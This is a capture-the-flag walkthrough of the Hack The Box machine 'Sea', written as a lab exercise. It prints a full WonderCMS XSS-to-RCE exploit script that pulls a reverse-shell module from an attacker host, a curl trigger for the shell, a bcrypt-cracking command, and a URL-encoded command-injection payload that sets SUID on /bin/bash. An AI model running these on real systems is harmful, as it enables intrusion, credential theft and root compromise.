

# Sea

## Recon

### Nmap

```markup
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Web App
```

The <mark style="color:red;">**`nmap`**</mark> result just give us a normal port such as 22 and 80

### Web app&#x20;

Port 80 is hosting the website with the title is <mark style="color:red;">**`velik71`**</mark>. And we can be able to participate the program by entering <mark style="color:red;">**`/contact.php`**</mark>:

<figure><figcaption></figcaption></figure>

So let enumerate the directories:

<figure><figcaption></figcaption></figure>

There are 4 directory with 301 status code that might be some directories within them.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Keep enumerating the files for the path <mark style="color:red;">**`http://sea.htb/data/files`**</mark> & <mark style="color:red;">**`http://sea.htb/themes/bike`**</mark>:

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt -u "http://sea.htb/data/files/FUZZ" -t 200 -fc 403
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt -u "http://sea.htb/themes/bike/FUZZ" -t 200 -fc 403
```

<figure><figcaption></figcaption></figure>

Let check some sensitive files:

<figure><figcaption></figcaption></figure>

As we can see there is a <mark style="color:red;">**`README.md`**</mark>:

<figure><figcaption></figcaption></figure>

And it tells us it's a WonderCMS

Check the version of that we got:&#x20;

<figure><figcaption></figcaption></figure>

[**WonderCMS**](https://github.com/WonderCMS/wondercms) 3.2.0 is a vulnerable version which is know as [CVE-2023-41425](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-41425). It allows a remote attacker to execute arbitrary code via a crafted script uploaded to the <mark style="color:red;">**`installModule`**</mark> component

## WWW-Data&#x20;

Because we already know its version has vulnerabilities.

This [article](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) has explained how it works. So we can modify the script like this:&#x20;

```python
# Exploit: WonderCMS XSS to RCE
import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = "http://sea.htb"+url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname;
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.17:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();

     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")

```

We need to create an <mark style="color:red;">**`xss.js`**</mark> file containing a crafted JavaScript payload designed for an XSS attack vector. This script will utilize a given login URL to extract a security token from the HTML (specifically from the input field identified by its <mark style="color:red;">**`name`**</mark> attribute). It will then construct a URL to trigger the <mark style="color:red;">**`installModule`**</mark> functionality with the extracted token.

Since the HTB machine cannot download files from GitHub, we can download that <mark style="color:red;">**`.zip`**</mark> file to our machine (Download here: [https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip](https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip))

Run the script:

```bash
python3 exploit.py http://sea.htb/loginURL <YOUR_IP> 4444
```

Copy the XSS link and sending to admin by <mark style="color:red;">**`/contact.php`**</mark>

<figure><figcaption></figcaption></figure>

Send the POST request and wait for the admin to download it. But some problems with the <mark style="color:red;">**`xss.js`**</mark> make it can't connect to the shell.&#x20;

So we can manually visit the reverse shell and provide certain parameters:

```bash
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=<YOUR_IP>&lport=4444'
```

<figure><figcaption></figcaption></figure>

## Amay - SEA

As we know the website uses an Apache server so they should check <mark style="color:red;">**`/var/www`**</mark>

Find for useful information, we will find database.js which contains creds:&#x20;

<figure><figcaption></figcaption></figure>

Copy the password and use <mark style="color:red;">**`john`**</mark> to crack it to have <mark style="color:red;">**`amay`**</mark> password

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt crack.txt
```

Use the cracked password and log in to <mark style="color:red;">**`amay`**</mark> user&#x20;

<figure><figcaption></figcaption></figure>

## Root - SEA

For privilege escalation, first try <mark style="color:red;">**`netstat`**</mark> to see the internal networks associated with the server

<figure><figcaption></figcaption></figure>

There are many IPs but just focus on <mark style="color:red;">**`127.0.0.1`**</mark> with port <mark style="color:red;">**`8080`**</mark>

To see more clearly you can use <mark style="color:red;">**`grep`**</mark>

<figure><figcaption></figcaption></figure>

This proves we can specify a port when running <mark style="color:red;">**`ssh`**</mark>

<figure><figcaption></figcaption></figure>

Navigate to <mark style="color:red;">**`http://localhost:4000`**</mark> and login with <mark style="color:red;">**`amay`**</mark> credential

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Now we have access to System Monitor which is a hardware or software component used to monitor system resources and performance in a computer system.

It displays the disk usage of the logical volume <mark style="color:red;">**`/dev/mapper/ubuntu--vg-ubuntu--lv`**</mark> on an Ubuntu system, as suggested by the volume group naming convention. The usage statistics reveal that 73% of the disk is currently utilized, which could be worrisome if the volume has limited capacity for expansion.

Click on Analyze and we get:&#x20;

<figure><figcaption></figcaption></figure>

It shows logs of <mark style="color:red;">**`gobuster`**</mark> uses (someone uses it)&#x20;

Review the traffic in BurpSuite, we can see that parameter <mark style="color:red;">**`log_file=/var/log/apache2/access.log`**</mark> is provided in the POST request

If we tested /root/root.txt as the parameter for <mark style="color:red;">**`log_file`**</mark>, it just detects the corresponding file, possibly with root privilege

<figure><figcaption></figcaption></figure>

We got that response because if the filter detects the so-called suspicious traffic patterns, it prints out the content or potentially executes commands. So it's trial and error time. After some testing, simple <mark style="color:red;">**`;`**</mark> for command injection adding some separators will make the dummy filter misfunction to output sensitive files owned by root and execute arbitrary commands:

So that I create the <mark style="color:red;">**`URL-decode`**</mark> payload:

```bash
%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%0a
```

It will inject <mark style="color:red;">**`chmod u+s /bin/bash`**</mark> . In the SSH session, we executed <mark style="color:red;">**`/bin/bash -p`**</mark>and gained root access:

<figure><figcaption></figcaption></figure>
